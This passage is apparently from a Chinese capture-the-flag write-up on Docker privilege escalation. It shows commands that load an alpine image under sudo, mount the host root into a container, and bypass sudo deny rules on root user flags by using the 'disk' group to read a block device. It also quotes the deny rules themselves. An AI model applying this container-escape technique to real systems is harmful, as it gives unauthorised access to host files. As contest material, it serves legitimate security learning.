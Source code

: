 _（这个“考证”听起来有点玄乎，实际上也一点都不简单，整个过程包括了反复调节 Telnet 配置、试图在 `rz` 上加各种参数，以及反复安装卸载学习版的 Xshell 和 SecureCRT，以及搜索网上的各种文章，直到我心血来潮决定 `touch` 一下。浪费的时间至少 3 小时。）_

但是，上传较大的文件似乎会在到达 100% 后卡一段时间，应该是服务器需要时间处理文件。经过测试，可能只能上传 15MB 以内的文件。如果要有充足时间在上传继续实验，文件大小需要控制在 5MB 以内。

> **@lsy**: 我被文件上传问题卡了一天。这个环境启动还贼慢，搞得我那天打了好长时间的皇室战争。

#### 先跑一个容器起来再说

我们需要上传一个足够轻量的基础镜像，而 `alpine` 镜像打包成 `tar` 只有 9MB，非常合适。经过测试，环境内有 `gzip`，因此我们还可以上传 `tar.gz` 文件，这样就只有 3MB 了。

根据 `sudo -l` 限制，`docker image load` 不能带任何参数，而 `docker run` 需要这样开头： `docker run --rm -u 1000:1000`。这强制要求我们使用低权限的 uid 1000 运行容器。

上传文件 `alpine.tar.gz` 到 `/tmp` 后，执行这些就可以导入镜像并运行。[书接上回](https://github.com/yezhiyi9670/hackergame-2023-personal-writeup/blob/master/docker-escalation/README.md)，上次我们在 Docker 题目中将主机的根目录直接挂载到了容器里，所以这次也这么做。

```plain
gzip -d alpine.tar.gz
sudo docker image load < alpine.tar
sudo docker run --rm -u 1000:1000 -v /:/host -it alpine
```

于是容器就顺利跑起来了。我们探索一下：

```plain
~ $ whoami
whoami: unknown uid 1000
~ $ cd /host
/host $ ls -l
...
lrwxrwxrwx    1 root     root             9 Oct 15 09:17 flag -> ./dev/vdb
...
/host $ cd dev
/host/dev $ ls -l
...
brw-rw----    1 root     disk      253,  16 Nov  9 16:40 vdb
...
```

#### 子任务 1

根据惯例，在 `docker run` 命令后添加新的 `-u` 参数可以覆盖前面指定的 uid 1000，但是 sudo 的限制使得我们无法指定用户为 root：

```plain
!/usr/bin/docker * -u0*
!/usr/bin/docker * -u?0*
!/usr/bin/docker * --user?0*
!/usr/bin/docker * -ur*
!/usr/bin/docker * -u?r*
!/usr/bin/docker * --user?r*
```

我们看到 `/flag` 指向的是 `/dev/vdb` 设备块，而 `/dev/vdb` 的属组是 `disk`。`/dev/vdb` 的读取权限是对用户组开放的，因此不需要指定容器用户为 `root`，只需要指定用户组 `disk` 就有读取权限了。
